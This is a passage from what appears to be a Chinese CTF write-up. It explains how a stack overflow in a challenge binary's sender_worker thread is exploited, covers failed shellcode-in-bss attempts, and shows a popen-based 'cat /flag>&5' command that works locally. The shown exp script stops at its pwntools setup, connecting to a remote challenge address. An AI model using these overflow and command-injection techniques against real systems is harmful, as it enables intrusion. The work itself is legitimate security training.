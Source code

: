 最后输出`recv_msg`。

### 利用

在`sender_worker`中存在栈溢出，若`data_to`长度>0xFF(255)则copy到s(ebp-0x10c)处，存在**栈溢出**。若`data_from`长度<= 0x4F则copy到`bss段中的from`处。

由于每次都会创建一个新的`sender_worker`线程完成工作，因此难以采取ret2libc。但`data_from`保存在`bss`段中，可以试试往里面写入shellcode（虽然这里是RW，但还是试试吧），通过栈溢出劫持程序到此处运行shellcode。

尝试的时候遇到了个问题，程序会卡在一个地方。

```sh
   # eax=0x61616161
   0x8049ac5 <sender_worker+295>    add    esp, 0x10
   0x8049ac8 <sender_worker+298>    mov    eax, dword ptr [ebp - 0xc]
 ► 0x8049acb <sender_worker+301>    mov    eax, dword ptr [eax + 8] # 会卡在这里
   0x8049ace <sender_worker+304>    test   eax, eax
   0x8049ad0 <sender_worker+306> 
```

估计是因为变量v3被覆盖，找不到`recv_msg`了，需要找一个地址`addr`，并且`addr+0x8`可以访问。

最后虽然跳转到覆盖的返回地址，但果然bss段里面的shellcode无法执行。

据说`popen()`函数可以执行`sh`指令，尝试一下。

```c
FILE * popen( const char * command,const char * type);

//popen()会调用fork()产生子进程，然后从子进程中调用/bin/sh -c来执行参数command的指令。参数type可使用“r”代表读取，“w”代表写入。依照此type值，popen()会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。此外，所有使用文件指针(FILE*)操作的函数也都可以使用，除了fclose()以外。

//如果 type 为 r，那么调用进程读进 command 的标准输出。
//如果 type 为 w，那么调用进程写到 command 的标准输入。
```

执行`sh`好像没有用，虽然运行了`/bin/dash`，但输出过去的信息不会产生作用，不知道是不是因为没有send回来。

后面换了`cat /flag>&5`，在本地起的可以返回`flag`。

但远程的不行，可能是因为本地用的`fd`刚好是5，但远程的不是。

爆破远程的`fd`到1030都不行，可能是因为其他原因吧，docker的和远程一样都不行。

exp:

```py
from pwn import*
context(log_level='debug',os='linux',arch='i386')
filename='pwn'
elf=ELF('./'+filename)
libc=ELF('./libc.so.6')
# p=process('./'+filename)
#p=process(['./ld-2.23.so','./'+filename],env={'LD_PRELOAD':'./libc-2.23.so'})
# p=remote('localhost',9999)
p=remote('43.142.108.3',28972)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
```